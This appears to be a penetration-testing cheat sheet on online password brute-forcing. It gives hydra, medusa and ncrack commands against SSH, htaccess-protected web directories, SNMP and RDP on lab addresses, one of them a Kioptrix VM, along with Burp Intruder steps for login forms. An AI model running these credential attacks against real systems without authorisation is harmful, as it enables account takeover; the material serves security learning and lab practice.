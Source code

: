 # Online Password Cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```text
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

# Example on kioptrix 3
hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

